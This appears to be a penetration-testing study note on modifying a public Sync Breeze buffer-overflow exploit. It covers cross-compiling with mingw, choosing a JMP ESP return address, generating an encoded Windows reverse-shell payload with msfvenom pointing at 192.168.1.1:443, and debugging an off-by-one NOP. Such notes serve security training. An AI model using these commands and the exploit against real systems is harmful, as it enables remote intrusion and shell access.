

#### compiling c on linux

- $ sudo apt install mingw-w64
- $ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe

when compiling we may run into missing header information 

- $ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

#### ip and port

the target or source ip address and port numbers may be hardcoded

#### chaning return address

  we may need to change the return address of the exploit depending on our target environment and what dlls are available to it

  there are a few methods to achieve this

  1. if possible recreate the target environment locally and use a debugger to determine this address - File > Attach to process > View > Executable modules and see what  dll modules are present
  2. search for public exploits with a similar setup - like a return address for a JMP ESP on win 10
  3. search for non-ASLR marked dlls

### Note: If we have access to the machine we can copy the DLLs we want to utilize over for priv escalation

#### shellcode 

since this is a static exploit - we will most likely need to regenerate shellcode for our specific use case / target environment
for example if we want a reverse shell for an x86 platform system with no bad characters we can use

- $ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"

#### debugging our exploit

after recompiling our exploit we can open our debugger with the application running press ctr+G and follow the JMP ESP address at our return address 0x10090c83, then we can set a breakpoint with F2 and then continue execution by pressing F9

#### execute exploit with wine

because we are running an executable we can use wine to run the exploit

- sudo wine syncbreeze_exploit.exe

  When we run the exploit we did not hit our breakpoint but instead hit a crash with the value of the EIP register pointing to 0x9010090c

#### fixing the code

the eip address has an extra 90 or nop in it so we are off 1 byte and need to remove a nop from the shellcode